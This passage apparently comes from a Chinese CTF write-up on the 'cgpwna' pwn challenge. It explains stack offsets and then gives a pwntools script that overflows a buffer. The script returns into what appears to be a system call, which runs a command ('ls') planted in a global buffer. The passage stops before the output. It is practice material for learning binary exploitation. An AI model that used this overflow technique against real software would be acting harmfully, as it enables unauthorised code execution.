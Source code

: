 ![image-20200209050510613](%E5%8D%97%E9%82%AEcgpwna.assets/image-20200209050510613.png)

然后确定位置是**0xffac7c70**开始，然后就是3的个数竟然是**100**，因此直接在后面拼接第二次输入的地方，其中用**\x00**就是截断执行数据

第二次输入函数的时候s的起始地址是**0x804a080**（前面有讲）

exp修改为：

```python
from pwn import *

offset=0xffffd26c-0xffffd238
k=process('./cgpwna')
k.recvline('your choice:')
sleep(1)
k.sendline('1')
sleep(1)
k.recvline('you can leave some message here:')
k.sendline('ls'+'\x00'+'a'*(57-2-4))
sleep(1)
raw_input()                 #添加调试点
k.recvline('your name please:')
k.sendline('1'*offset+p32(0x804852a)+p32(0x804a080))
k.interactive()
```

这里如果不需要调试点可以关闭

执行结果为：
